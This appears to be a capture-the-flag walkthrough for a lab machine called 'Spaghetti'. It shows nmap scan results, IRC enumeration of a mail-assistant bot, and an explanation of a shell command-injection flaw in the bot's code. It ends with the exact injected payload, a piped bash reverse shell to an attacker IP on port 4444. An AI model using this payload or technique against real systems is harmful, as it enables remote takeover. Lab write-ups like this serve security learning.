





Return to Main Page
Spaghetti Walkthrough
Summary
Port Scanning
Running a port scan against the full port range to determine which ones are open.
# Nmap 7.91 scan initiated Sat Sep 18 15:46:26 2021 as: nmap -p- -oN ping_tcp 192.168.248.160
Nmap scan report for 192.168.248.160
Host is up (0.044s latency).
Not shown: 65530 closed ports
PORT STATE SERVICE
22/tcp open ssh
25/tcp open smtp
80/tcp open http
6667/tcp open irc
8080/tcp open http-proxy
# Nmap done at Sat Sep 18 15:47:11 2021 -- 1 IP address (1 host up) scanned in 44.14 seconds
Running an nmap scan using the flags -sV and -sC to enumerate service versions and other information.
# Nmap 7.91 scan initiated Sat Sep 18 15:48:13 2021 as: nmap -p22,25,80,6667,8080 -sV -sC -oN script_tcp 192.168.248.160
Nmap scan report for 192.168.248.160
Host is up (0.040s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
| 256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_ 256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
25/tcp open smtp Postfix smtpd
|_smtp-commands: spaghetti.lan, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING,
| ssl-cert: Subject: commonName=spaghetti.lan
| Subject Alternative Name: DNS:spaghetti.lan
| Not valid before: 2021-03-09T11:39:07
|_Not valid after: 2031-03-07T11:39:07
|_ssl-date: TLS randomness does not represent time
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Spaghetti Mail
6667/tcp open irc
| irc-info:
| users: 2
| servers: 1
| chans: 1
| lusers: 2
| lservers: 0
| server: irc.spaghetti.lan
| version: InspIRCd-3. irc.spaghetti.lan
| source ident: nmap
| source host: 192.168.49.248
|_ error: Closing link: (nmap@192.168.49.248) [Client exited]
8080/tcp open http nginx 1.18.0 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-title: Postfix Admin - 192.168.248.160:8080
|_Requested resource was login.php
Service Info: Hosts: spaghetti.lan, irc.spaghetti.lan; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 18 15:48:36 2021 -- 1 IP address (1 host up) scanned in 22.81 seconds
Port 6667 - irc
The first real point of interest comes from the irc chat room. I used the program hexchat to connect to the irc server. There is a room on this irc server named #mailAssistant with a user/bot in it named spaghetti_BoT. Once in the irc room you can send the message "hello" and the bot responds telling us to send it a DM with "!command"


We have learned two things so far about the bot
- We can send it a command for email issues using: "email:<email address> description:<description>"
- The bot is PyBot and we have the link to the bot's github page
On the github page for the bot and we can see a vulnerability in the code behind the command allowing us to submit email issues.
- The code for the email issue command.
- The description that we sends gets assigned to the variable "body"

- The code that sends the email.

The user input does not go through any sanitization. It gets passed directly into the "cmd" variable which then gets executed as a shell command. In order to exploit this all we need to do is add a pipe before whatever command we want to send in the "description" portion of the command for email issues.
I send a command and receieve a reverse shell on 4444
- Sent: email:test@test.com description:| bash -c 'bash -i >& /dev/tcp/192.168.49.248/4444 0>&1'
